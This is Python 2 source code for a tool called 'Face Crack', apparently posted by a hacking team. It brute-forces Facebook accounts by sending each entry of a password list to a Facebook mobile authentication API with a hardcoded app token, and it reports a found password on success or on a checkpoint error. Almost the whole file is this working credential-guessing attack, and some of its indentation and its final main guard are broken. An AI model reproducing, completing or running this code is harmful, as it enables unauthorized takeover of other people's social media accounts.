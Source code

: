 # iPASHAx
#coded by iPASHAx404
"""Dilarang Recode Ya Bossq Saya Udh Cape2 Buat Tools Ini
Saya Tau Agan Bisa Buat Tools Sendiri, Agan Anggap Ini Sampah
Ini Cuma Tools Biasa Saja"""
import os,sys,time,urllib,json
try:
    import requests
except ImportError:
    os.system('pip2 install requests')
    menu()

GL = "\033[96;1m" # Blue aqua
BB = "\033[34;1m" # Blue light
YY = "\033[33;1m" # Yellow light
GG = "\033[32;1m" # Green light
WW = "\033[0;1m"  # White light
RR = "\033[31;1m" # Red light
CC = "\033[36;1m" # Cyan light
B = "\033[34m"    # Blue
Y = "\033[33;1m"    # Yellow
G = "\033[32m"    # Green
W = "\033[0;1m"     # White
R = "\033[31m"    # Red
C = "\033[36;1m"    # Cyan
logo = Y+"""
    _ ___  _   ___ _  _   _        _ _   __  _ _  
 (_) _ \/_\ / __| || | /_\  __ _| | | /  \| | | 
 | |  _/ _ \\__ \ __ |/ _ \ \ \ /_  _| () |_  _|
 |_|_|/_/ \_\___/_||_/_/ \_\/_\_\ |_| \__/  |_| 
                                                   """+B+" V0.1"""

def info():
    print R+"<[=================================]>"
    print R+"<["+G+" Author : BL4CK DR460N           "+R+"]>"
    print R+"<["+G+" Team   : Woll Cyber Team        "+R+"]>"
    print R+"<["+Y+"          Face Crack             "+R+"]>"
    print R+"<[=================================]>"

def menu():
    to = []
    print logo
    info()
    try:
        print
        usr = raw_input(W+"Username : "+G)
        pas = raw_input(W+"List Password : "+G)
        print
        print R+"[====================================]"
        ps = open(pas, 'r')
        for pwd in ps:
            try:
                p = pwd.replace('\n', '')
                sys.stdout.write(Y+"Trying Password > "+R+p+"\n")
                sys.stdout.flush()
                data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + usr + '&locale=en_US&password=' + p + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
                j = json.loads(data.text)
                if 'access_token' in j:
                    print B+"=========="+G+"Password Found"+B+"=========="
                    print W+" Email/Id/Username : "+G+usr
                    print W+" Password          : "+G+p
                    print
                    sys.exit()
                elif 'www.facebook.com' in j['error_msg']:
                    print B+"=========="+G+"Password Found"+B+"=========="
                                    print W+" Email/Id/Username : "+Y+usr
                                    print W+" Password          : "+Y+p
                                    print
                                    sys.exit()

            except requests.ConnectionError:
                print R+"Tidak Ada Koneksi"
                sys.exit()
    except IOError:
        print R+"File Not Found"
        sys.exit()

if __name.pasha__ == '__main__':
    menu()
    
